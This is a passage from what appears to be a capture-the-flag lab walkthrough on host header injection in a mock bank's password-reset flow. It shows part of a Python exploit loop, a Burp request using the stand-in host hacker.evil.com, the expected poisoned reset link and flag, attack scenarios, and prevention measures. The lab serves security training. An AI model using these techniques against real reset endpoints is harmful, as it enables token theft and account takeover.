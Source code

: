 ```python
    for malicious_host, description in test_cases:
        print(f"\n[*] Testing: {description}")
        exploit_host_header_injection(target_email, malicious_host)
        time.sleep(1)

if __name__ == "__main__":
    test_various_injection_methods("victim@bank.com")
```

#### Step 6: Capture the Flag
**Objective:** Complete the exploitation and retrieve the flag

1. Successfully poison the password reset link
2. Verify the email preview shows your malicious domain
3. **Flag reward:** `{HOST_HEADER_INJECTION_PASSWORD_RESET_POISONED}`

**Burp Suite Verification:**
```http
POST /api/vuln/host-header-injection HTTP/1.1
Host: hacker.evil.com
Content-Type: application/json

{"email":"admin@bank.com"}
```

**Expected Response:**
```json
{
  "success": true,
  "message": "Password reset email sent",
  "resetLink": "http://hacker.evil.com/reset?token=xyz789",
  "flag": "{HOST_HEADER_INJECTION_PASSWORD_RESET_POISONED}"
}
```

### Real-World Attack Scenarios

**Scenario 1: Credential Harvesting**
1. Attacker sends poisoned reset request with Host: attacker.com
2. Victim receives email with link to attacker.com
3. Victim clicks link, token sent to attacker's server
4. Attacker uses token to reset victim's password

**Scenario 2: Mass Cache Poisoning**
1. Attacker poisons CDN cache with malicious Host header
2. All users receive cached response with XSS payload
3. Widespread account compromise

**Scenario 3: Multi-Tenant Bypass**
1. SaaS application uses Host header for tenant identification
2. Attacker manipulates Host header to access other tenants
3. Cross-tenant data exposure

### Advanced Prevention Measures
1. Never use Host header for security-sensitive operations
2. Use absolute URLs with hardcoded domains
3. Validate Host header against whitelist
4. Implement proper virtual host configuration
5. Use HSTS (HTTP Strict Transport Security)
6. Configure web servers to reject ambiguous requests
7. Implement domain pinning for password reset links
8. Use separate domains for administrative functions
9. Monitor for unusual Host header values
10. Implement rate limiting on password reset endpoints

---